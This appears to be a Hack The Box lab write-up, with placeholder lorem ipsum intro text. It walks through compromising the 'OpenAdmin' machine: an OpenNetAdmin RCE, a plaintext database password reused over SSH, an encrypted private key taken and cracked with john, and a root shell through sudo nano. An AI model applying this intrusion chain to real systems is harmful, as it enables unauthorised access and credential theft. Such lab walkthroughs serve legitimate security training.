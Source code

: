 ```yaml
---
layout: single
title: Openadmin - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-01-07
classes: wide
header:
  teaser: /assets/images/htb-writeup-openadmin/openadmin_logo.png
  teaser_home_page: true
  icon: /assets/images/linux.png
categories:
  - hackthebox
  - infosec
tags:  
  - linux
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-openadmin/openadmin_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. root@p3:/opt/htb/machines/resolute# nmapAutomatorDirb.sh 10.10.10.171 All
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    + http://openadmin.htb/index.html (CODE:200|SIZE:10918)
    + http://openadmin.htb/server-status (CODE:403|SIZE:278)
    + http://openadmin.htb/artwork/index.html (CODE:200|SIZE:14461)
    + http://openadmin.htb/music/index.html (CODE:200|SIZE:12554)

2. Looking through the websites we find that "Admin" has made a lot of posts on /artwork/blog.html, this might be a possible user.
   Also a testemonial from Craig Stephen, also possible user?

   On /music/index.html, pressing the Login button gives us what looks like admin privs for OpenNetAdmin http://openadmin.htb/ona/
   The application is running on version 18.1.1, which is NOT the latest release. A quick google shows us that this version has a
   RCE vulnerability.

3. Running the RCE script gives us a "shell" as user www-data with limited privs. We are unable to traverse, but can execute commands
    root@p3:/opt/htb/machines/openadmin# ./ona-expl.sh http://openadmin.htb/ona/
      $ whoami
        www-data

   Enumerating through the folders of /opt/ona/www we find a config file for the database connection, and within credentials.
     $ cat local/config/database_settings.inc.php
      <?php

      $ona_contexts=array (
        'DEFAULT' =>
        array (
          'databases' =>
          array (
            0 =>
            array (
              'db_type' => 'mysqli',
              'db_host' => 'localhost',
              'db_login' => 'ona_sys',
              'db_passwd' => 'n1nj4W4rri0R!',
              'db_database' => 'ona_default',
              'db_debug' => false,
            ),
          ),
          'description' => 'Default data context',
          'context_color' => '#D3DBFF',
        ),
      );

   $ ls -al /home/
    total 16
    drwxr-xr-x  4 root   root   4096 Nov 22 18:00 .
    drwxr-xr-x 24 root   root   4096 Nov 21 13:41 ..
    drwxr-x---  6 jimmy  jimmy  4096 Jan  7 06:29 jimmy
    drwxr-x---  6 joanna joanna 4096 Nov 28 09:37 joanna

We got 2 users (jimmy & joanna) and 1 password (n1nj4W4rri0R!)

4. We are able to SSH with the credentials jimmy:n1nj4W4rri0R!
   Enumerating through the box we find /var/www/internal and within index.php, main.php and logout.php.

   main.php has some interesting code - if user = jimmy and password = some-hash, then we are able to access main.php

   <?php
    $msg = '';

    if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
      if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
          $_SESSION['username'] = 'jimmy';
          header("Location: /main.php");
      } else {
          $msg = 'Wrong username or password.';
      }
    }

5. First we need to find the port this local webserver is running on, we use ss for this.
    jimmy@openadmin:/var/www/internal$ ss -tulpn
    Netid        State          Recv-Q          Send-Q                    Local Address:Port                    Peer Address:Port
    udp          UNCONN         0               0                         127.0.0.53%lo:53                           0.0.0.0:*
    tcp          LISTEN         0               80                            127.0.0.1:3306                         0.0.0.0:*
    tcp          LISTEN         0               128                           127.0.0.1:52846                        0.0.0.0:*
    tcp          LISTEN         0               128                       127.0.0.53%lo:53                           0.0.0.0:*
    tcp          LISTEN         0               128                             0.0.0.0:22                           0.0.0.0:*
    tcp          LISTEN         0               128                                   *:80                                 *:*
    tcp          LISTEN         0               128                                [::]:22                              [::]:*

   We know all of the ports except 52846, this is most likely the local webserver. Try to curl it and see if it looks right.
    jimmy@openadmin:/var/www/internal$ curl localhost:52846
      ..
      <h2>Enter Username and Password</h2>
      <div class = "container form-signin">
        <h2 class="featurette-heading">Login Restricted.<span class="text-muted"></span></h2>
            </div> <!-- /container -->
      ..

   This output seems to match the data in /var/www/internal/index.php. So lets try to curl main.php using jimmys credentials.
    jimmy@openadmin:/var/www/internal$ curl localhost:52846/main.php -u jimmy:n1nj4W4rri0R!
      <pre>-----BEGIN RSA PRIVATE KEY-----
      Proc-Type: 4,ENCRYPTED
      DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

      kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
      ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
      ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
      6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
      ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
      y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
      9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
      piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
      /U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
      40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
      fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
      9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
      X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
      S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
      FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
      Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
      RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
      uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
      1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
      XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
      yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
      +4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
      qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
      z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
      K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
      -----END RSA PRIVATE KEY-----
      </pre><html>
      <h3>Don't forget your "ninja" password</h3>
      Click here to logout <a href="logout.php" tite = "Logout">Session
      </html>

   main.php runs the command 'cat /home/joanna/.ssh/id_rsa' meaning we just got joanna's private ssh key.

6. Trying to login with the extracted private key requires an passphrase key, so we need to crack it.
   The key is in .pem format so before cracking we need to convert it using ssh2john.

   root@p3:/usr/share/john# python ssh2john.py /opt/htb/machines/openadmin/joanna-id_rsa > /opt/htb/machines/openadmin/hash-joanna
   root@p3:/opt/htb/machines/openadmin# john --wordlist=/usr/share/wordlists/rockyou.txt hash-joanna
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Will run 12 OpenMP threads
    Note: This format may emit false positives, so it will keep trying even after
    finding a possible candidate.
    Press 'q' or Ctrl-C to abort, almost any other key for status
    bloodninjas      (/opt/htb/machines/openadmin/joanna-id_rsa)
    1g 0:00:00:01 DONE (2020-01-07 14:43) 0.5882g/s 8436Kp/s 8436Kc/s 8436KC/s  0125457423 ..*7¡Vamos!
    Session completed

   Password for Joanna's Private Key: bloodninjas

7. Login as Joanna and grab user.txt
    root@p3:/opt/htb/machines/openadmin# ssh joanna@openadmin.htb -i joanna-id_rsa
      Enter passphrase for key 'joanna-id_rsa': bloodninjas
    joanna@openadmin:~$ cat user.txt
      c9b2****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. sudo -l shows us that we can run "sudo /bin/nano /opt/priv" without any password. Looking at gtfobins there is a privesc
   using nano to get a root shell.

   joanna@openadmin:/opt$ sudo /bin/nano /opt/priv
   Press CTRL + R to for "Read File" and then CTRL + X for "Execute Command". Next, write 'reset; sh 1>&0 2>&0' to get shell

    Command to execute: reset; sh 1>&0 2>&0
     #
     #
     # whoami
      root
     # cat /root/root.txt
      2f90****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

OpenNetAdmin 18.1.1 RCE
  https://packetstormsecurity.com/files/155406/OpenNetAdmin-18.1.1-Remote-Code-Execution.html

GTFOBINS Nano
  https://gtfobins.github.io/gtfobins/nano/#sudo
